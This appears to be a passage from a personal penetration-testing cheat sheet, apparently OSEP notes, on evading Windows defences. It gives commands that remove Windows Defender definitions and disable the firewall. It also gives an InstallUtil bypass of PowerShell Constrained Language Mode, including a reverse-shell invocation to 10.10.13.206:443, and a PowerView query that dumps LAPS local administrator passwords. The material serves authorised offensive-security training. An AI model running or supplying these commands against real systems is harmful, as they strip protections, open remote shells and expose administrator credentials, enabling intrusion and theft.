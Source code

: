 - cmd
```cmd
cmd /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -removedefinitions -all  
```

- disable firewall
```powershell
NetSh Advfirewall set allprofiles state off
```


#### Evasion Methodology

- https://book.hacktricks.xyz/windows-hardening/av-bypass#av-evasion-methodology



## Constrained Language Mode (CLM)

##### Check if in CLM:

```powershell
$ExecutionContext.SessionState.LanguageMode
```


- altbypass (https://github.com/Octoberfest7/OSEP-Tools/tree/main/altbypass)...have compiled on Win11 and in www directory

#### PSByPassCLM (Windows Server 2016 Tested)
- https://github.com/padovah4ck/PSByPassCLM

Direct bypass:

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
```

Reverse shell:

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```

## PowerView

#### Basic Enumeration

- https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters#disable-defender

#### Laps Passwords

```powershell
Get-DomainComputer  | Select-Object 'dnshostname','ms-mcs-admpwd' | Where-Object {$_."ms-mcs-admpwd" -ne $null}
```
